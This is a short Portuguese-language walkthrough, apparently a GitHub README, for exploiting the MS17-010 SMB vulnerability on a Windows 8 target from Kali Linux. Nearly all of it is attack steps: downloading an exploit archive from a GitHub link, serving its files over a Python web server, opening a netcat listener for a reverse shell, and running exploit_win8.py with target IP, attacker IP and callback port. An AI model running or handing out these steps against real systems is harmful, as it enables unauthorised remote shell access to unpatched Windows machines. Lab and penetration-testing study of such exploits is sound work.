 Realize o download do exploit, descompacte o arquivo ms17-010.tar.gz.
<br>

https://github.com/caique-garbim/MS17-010/raw/main/ms17-010.tar.gz
```
tar xf ms17-010.tar.gz
```
```
cd ms17-010/win8/
```

### Exploração
Inicie um web server dentro de *win8/* **(em outro terminal)**:
```
python3 -m http.server 80
```
Prepare o Kali para receber a conexão reversa **(em outro terminal)**:
```
rlwrap nc -vnlp 8081
```
Execute o **exploit_win8.py** com python2 informando nos parâmetros o IP do Windows alvo, IP do Kali e a porta que receberá a shell reversa:
```
python2 exploit_win8.py 192.168.10.114 192.168.100.3 8081
```

![win8poc](https://user-images.githubusercontent.com/76706456/197260759-83dbc652-7974-4f36-98b6-2df9737bc3e5.gif)
